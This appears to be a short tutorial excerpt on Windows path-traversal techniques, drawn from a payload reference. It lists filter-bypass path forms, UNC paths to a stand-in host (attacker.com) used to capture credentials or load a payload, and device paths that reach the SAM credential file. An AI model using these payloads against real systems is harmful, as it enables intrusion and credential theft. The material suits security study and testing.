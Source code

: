 
### 🔹 Windows-Specific Tricks

#### **Shell Behavior:**

In Windows, if you append extra characters like:

* `<`, `>`, or even `"` at the end of the path
* Add extra `./` or `.\`
* Use `../` for non-existent folders

Examples:

```plaintext
file.txt...  
file.txt     (with trailing spaces)  
././file.txt  
folder/../file.txt  
```

Windows might ignore these and still access the file, helping attackers bypass input filters.

---

#### **Windows UNC Paths**

These are used to access network shares:

```plaintext
\\attacker.com\share\malicious.exe  
\\?\192.168.1.10\payloads\file.php  
```

Attackers can use these to:

* Steal **credentials** from the server
* Evade filters
* Access internal network shares the attacker normally can’t reach

---

#### **Windows NT Device Namespace**

These are low-level device paths that allow access to raw disk volumes:

```plaintext
\\.\GLOBALROOT\Device\HarddiskVolume1\Windows\System32\config\SAM  
\\.\CdRom0\autorun.inf  
```

[Directory Traversal - PayloadsAllTheThings (GitHub)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal#directory-traversal)
